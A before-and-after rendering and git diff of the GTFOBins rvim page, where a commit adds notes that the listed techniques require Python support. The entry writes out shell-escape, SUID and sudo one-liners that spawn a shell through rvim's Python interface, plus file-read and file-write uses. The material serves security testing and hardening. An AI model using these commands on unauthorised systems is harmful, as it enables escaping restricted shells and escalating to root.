

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rvim.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1243 px from its top, so only the background shows below that.

Commit message:
Polish rvim, vi, and vim

```diff
--- a/_gtfobins/rvim.md
+++ b/_gtfobins/rvim.md
@@ -1,10 +1,11 @@
 ---
-description: 'From the manual: with rvim "It will not be possible to start shell commands".'
 functions:
   shell:
-    - code: rvim -c ':py import os;os.system("sh")'
+    - description: This requires that rvim is compiled with Python support.
+      code: rvim -c ':py import os;os.system("sh")'
   file-write:
-    - code: |
+    - description: This requires that rvim is compiled with Python support.
+      code: |
         rvim file_to_write
         iDATA
         ^[
@@ -12,7 +13,9 @@ functions:
   file-read:
     - code: rvim file_to_read
   suid:
-    - code: ./rvim -c ':py import os;os.system("sh")'
+    - description: This requires that rvim is compiled with Python support.
+      code: ./rvim -c ':py import os;os.system("sh")'
   sudo:
-    - code: sudo rvim -c ':py import os;os.system("sh")'
+    - description: This requires that rvim is compiled with Python support.
+      code: sudo rvim -c ':py import os;os.system("sh")'
 ---
```
Also changed, not shown: _gtfobins/vi.md (+4 -2 lines), _gtfobins/vim.md (+3 -1 lines).
